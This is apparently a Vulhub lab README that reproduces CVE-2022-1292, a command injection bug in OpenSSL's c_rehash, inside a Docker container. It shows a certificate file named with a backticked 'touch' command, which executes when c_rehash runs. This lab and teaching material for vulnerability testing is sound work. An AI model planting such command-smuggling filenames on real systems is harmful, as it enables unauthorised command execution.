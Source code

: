 # OpenSSL Command Inject（CVE-2022-1292）

[中文版本(Chinese version)](README.zh-cn.md)

`c_rehash` in OpenSSL has a Command Inject Bug which allowed `c_rehash` executes command with it permission。

vulnerable version：

+ 3.0.0 <= OpenSSL <= 3.0.2
+ 1.1.1 <= OpenSSL <= 1.1.1n
+ 1.0.2 <= OpenSSL <= 1.0.2zd

test environment used `1.1.1m` version which already exits in VulHub

Reference links：

+ <https://cve.report/CVE-2022-1292>
+ <https://xz.aliyun.com/t/11703>

## Vulnerability environment

Execute following command to start a server:

```
docker-compose up -d
```

## Reproduce vulnerability

use `touch xxxx` to prove command executed success

after the vulnerability environment is started, enter the vulnerability environment container through `bash`：

```
docker-compose exec ssl bash 
```

run

```
mkdir test && cd test
echo "-----BEGIN CERTIFICATE-----" > "1.crt\`touch crack\`"
ls 
```

![1.png](1.png)

and then

```
c_rehash .
```

found `crack` already created, command executed success.

![2.png](2.png)
